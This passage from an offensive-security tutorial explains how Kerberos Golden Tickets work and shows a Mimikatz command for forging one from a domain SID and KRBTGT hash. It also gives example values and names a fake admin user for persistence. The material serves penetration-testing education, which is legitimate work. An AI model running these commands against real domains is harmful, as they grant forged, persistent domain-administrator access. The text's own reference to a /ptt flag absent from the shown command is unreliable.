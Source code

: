 Sooo, What does the `KRBTGT` account actually do.. Well the `KRBTGT` account is used to encrypt and sign all Kerberos tickets across the entire domain for validation. If you are on a Windows Domain Environment right now this account is working away doing it’s thing. The password also never changes unless explicity done by a SysAdmin etc and it’s name is always `KRBTGT` so it’s a common target for attackers.

The true beauty of Golden Tickets are the fact that they are valid `TGTs` as it is encrypted/signed by the `KRBTGT` account so they appear like legitimate `TGTs`

I believe I have explained now how we use Golden Tickets and hinted at how dangerous these really can be so I will not demonstrate some practical examples of course with Windows First followed by Linux.

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Windows

*copy and paste ftw*

Once again as we are attacking a protocol that is primarily used within Microsoft AD environments I do recommend you carry out the attacks from a Windows Box / **Domain-Joined Machine** but ofc it is possible from Linux but we will start with Windows.

I will only be discussing using Mimikatz for Ticket creation and then Rubeus for Ticket Injection. I do not believe you can create a Golden Ticket with Rubeus yet, but I may be wrong.

Let’s go.

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)Creating Ticket with Mimikatz

	  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
	 .## ^ ##.
	 ## / \ ##  /* * *
	 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
	  '#####'                                    with  13 modules * * */

**Golden Ticket Requirements**

	Domain Name: m0chanAD.local
	Domain SID: S-1-5-21-1473643419-774954089-2222323452 (whoami /user)
	KRBTGT NTLM Hash: d7e2b80507ea074ad59f152a1ba20458
	ID: 500 (Administrator SID), 518 (Schema Admins), 519 (Enterprise Admin)

**Generate Ticket**

	mimikatz.exe
	kerberos::golden /domain:m0chanAD.local /sid:<domain-sid> /krbtgt:<krbtgt> /id:500 /user:FakeAdmin /ticket persistance4life.kirbi

**PTT**

As you can see in the above examples I have applied the `/ptt` flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the `/ticket` flag which will output a `ticket.kirbi` file by default unless directly specified.
